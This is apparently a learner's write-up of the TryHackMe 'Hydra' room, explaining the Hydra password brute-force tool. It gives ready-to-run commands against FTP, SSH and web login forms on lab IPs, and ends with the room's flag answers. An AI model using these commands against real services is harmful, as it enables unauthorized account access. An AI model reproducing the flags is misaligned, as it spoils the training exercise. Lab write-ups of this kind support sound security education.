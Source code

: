 #FreeRoom #BruteForcing 

https://tryhackme.com/r/room/hydra

## What is Hydra?

Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: 
```
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
```

For more information on the options of each protocol in Hydra, you can check the [Kali Hydra tool page](https://en.kali.tools/?p=220).

This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use `admin:password` as the default login credentials, which is obviously not strong enough.

## Installing Hydra

Hydra is already installed on the AttackBox. You can access it by clicking on the **Start AttackBox** button.

If you prefer to use the in-browser Kali machine, Hydra also comes pre-installed, as is the case with all Kali distributions. You can access it by selecting Use Kali Linux and clicking on **Start Kali Linux** button.

However, you can check its official repositories if you prefer to use another Linux distribution. For instance, you can install Hydra on an Ubuntu or Fedora system by executing `apt install hydra` or `dnf install hydra`. Furthermore, you can download it from its official [THC-Hydra repository](https://github.com/vanhauser-thc/thc-hydra).


## using Hydra

### Hydra Commands

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being `user` and a password list being `passlist.txt`, we’d use the following command:

`hydra -l user -P passlist.txt ftp://MACHINE_IP`


### SSH

```
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh

-l  specifies the SSH username for login
-P  list of passwords
-t  sets the number of threads to spawn

hydra -l root -P passwords.txt 10.10.109.229 -t 4 ssh

```

### Post Web Form

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

```
sudo hydra <username> <wordlist> 10.10.109.229 http-post-form "<path>:<login_credentials>:<invalid_response>"

-l                username for web form login
-P                password list to use
<path>            login page URL   "login.php"
<login_creds>     username=^USER^&password=^PASS^
<invalid_resp>    response when login fails
-V                verbose

hydra -l <username> -P <wordlist> 10.10.109.229 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V


```



```
Use Hydra to bruteforce molly's web password. What is flag 1?

THM{2673a7dd116de68e85c48ec0b1f2612e}

Use Hydra to bruteforce molly's SSH password. What is flag 2?

THM{c8eeb0468febbadea859baeb33b2541b}
```




































